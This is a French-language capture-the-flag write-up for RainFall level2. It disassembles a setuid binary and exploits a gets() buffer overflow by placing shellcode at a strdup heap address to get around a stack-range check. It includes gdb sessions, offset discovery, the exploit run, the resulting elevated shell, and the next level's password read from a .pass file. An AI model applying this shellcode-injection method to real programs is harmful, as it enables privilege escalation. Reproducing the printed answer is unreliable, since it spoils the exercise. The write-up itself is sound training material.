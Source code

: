 On a un binaire avec le flag setuid
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
On désassemble
```asm
level2@RainFall:~$ objdump -d intel  ./level2 -M intel
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
On remarque l'appel à **fflush**, **gets**, **puts** et **strdup**. La fonction p est intéressante. Elle est appelé par main et utilise la fonction gets dont nous savons qu'elle est vulnérable aux attaques buffer overflow.
Cependant il y a un contrôle:
```asm
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
Il semble vérifier si **eax** contient une adresse appartenant à la plage 0xb0000000 - 0xbfffffff, qui correspond à la plage des adresses du Kernel ou de la Stack.
Étant donné qu'il n'y a pas de fonction cachée avec un appel à **system** comme dans **level1**, nous devrons injecter la nôtre.
Nous allons d'abord essayer de détourner le registre de retour **eax** pour exploiter la vulnérabilité de **gets**. L'adresse de retour sera celle du buffer de **gets**, et le buffer contiendra du **shellcode**.
Nous utilisons la même tactique que pour **level1** afin de déterminer l'offset :
```
level2@RainFall:~$ python /tmp/pattern3.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) b *0x0804854b
Breakpoint 3 at 0x804854b
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) quit
A debugging session is active.

        Inferior 1 [process 12242] will be killed.

Quit anyway? (y or n) y
level2@RainFall:~$ python /tmp/pattern3.py > /tmp/2.txt
level2@RainFall:~$ python /tmp/pattern3.py /tmp/2.txt 0x37634136
offset found at: 80
```
On a trouvé un offset à 80 octets. Essayons d'injecter le **shelcode** à l'adresse de retour:
```
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
=> 0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
On veut le buffer de retour, donc on met un break point après l'appel a **gets**: 0x080484f2 
```
(gdb) b *0x080484f2
Breakpoint 3 at 0x80484f2
(gdb) s
Single stepping until exit from function p,
which has no line number information.
aaaaaaa

Breakpoint 3, 0x080484f2 in p ()
(gdb) i r
eax            0xbffff6dc       -1073744164
ecx            0xb7fd28c4       -1208145724
edx            0xbffff6dc       -1073744164
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484f2        0x80484f2 <p+30>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
Dans eax le buffer est à 0xbffff6dc, essayond 'injecter ici.
Le shellcode fait 21 octets, la limite est de 80, donc le payload est constitué de 21 octets + 59 octets random + 4 octets pour l'adresse, soit 80 octets au total.
```
level2@RainFall:~$ python /tmp/exploit3.py  0xbffff6dc 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

(0xbffff6dc)

```
Cela a échoué parce que nous ne pouvons pas écrire sur la Stack, mais sur la Heap, cela semble fonctionner. strdup renvoie l'adresse suivante :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
TEST!
)                                        = 0xbffff6fc
puts("TEST!"
TEST!
)                                        = 6
strdup("TEST!")                          = 0x0804a008
+++ exited (status 8) +++
```
Nous réessayons avec cette adresse allouée par **malloc**:
```
level2@RainFall:~$ python /tmp/exploit3.py  0x0804a008 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Flag!